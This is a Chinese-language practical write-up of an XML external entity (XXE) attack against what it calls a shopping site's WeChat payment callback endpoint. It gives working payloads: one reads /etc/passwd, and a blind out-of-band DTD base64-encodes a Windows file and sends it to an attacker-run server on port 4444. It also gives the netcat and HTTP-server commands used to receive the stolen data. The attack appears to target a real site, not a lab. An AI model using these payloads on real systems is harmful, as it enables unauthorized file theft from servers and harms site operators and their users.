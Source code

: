 # -实战xxe
原理:
XXE就是XML外部实体注入。当允许引用外部实体时，通过构造恶意内容，就可能导致任意文件读取、系统命令执行、内网端口探测、攻击内网网站等危害。</br>
具体学习:https://www.jianshu.com/p/77f2181587a4</br>
### 实战开始:
首先目标是一个商城网站,微信支付处存在xml传输 /plugin/payment/wechat/notify_url.php</br>
传入正常的xml进行探测:</br>
```
<?xml version="1.0"?>
<catalog>
   <core id="test101">
      <author>John, Doe</author>
      <title>I love XML</title>
      <category>Computers</category>
      <price>9.99</price>
      <date>2018-10-01</date>
      <description>XML is the best!</description>
   </core>
</catalog>
```
返回结果</br>
![1.jpg](https://i.loli.net/2019/06/10/5cfdde5d7fe3416843.jpg)</br>

正常响应</br>
传入攻击payload读取文件</br>
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [<!ENTITY passwd "file:///etc/passwd">]>
<foo>
        <value>&passwd;</value>
</foo>

```
也是正常响应但无回显</br>
说明此处利用应该要用 Blind OOB XXE（使用Blind XXE漏洞来构建一条外带数据(OOB)通道来读取数据）</br>
准备一台远程服务器  上面编辑好dtd文件准备被目标连接读取</br>
dtd文件内容</br>
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/windows/win.ini">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip:4444?p=%file;'>">
```
![2.jpg](https://i.loli.net/2019/06/10/5cfdde5d4a32b42833.jpg)</br>
对目标服务器进行xxe攻击</br>
```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
```
![5cfde3e8869c320141.jpg.jpg](https://i.loli.net/2019/06/10/5cfde3e8869c320141.jpg)</br>
于此同时服务器开启80端口 和 监听4444端口</br>
命令如下</br>
```
nc -lvv 4444
ctrl z
bg
python -m SimpleHTTPServer 80
```
![6.jpg](https://i.loli.net/2019/06/10/5cfdde5d6b21058186.jpg)</br>
对目标发送请求，服务器收到回显</br>
![7.jpg](https://i.loli.net/2019/06/10/5cfddff85862528530.jpg)</br>
base64解码</br>
![4.jpg](https://i.loli.net/2019/06/10/5cfdde5d545e486392.jpg)</br>

xxe的危害不仅仅在于读取文件，另外还有内网主机探测,端口探测，若开启了某些协议甚至可在getshell
未完待续....
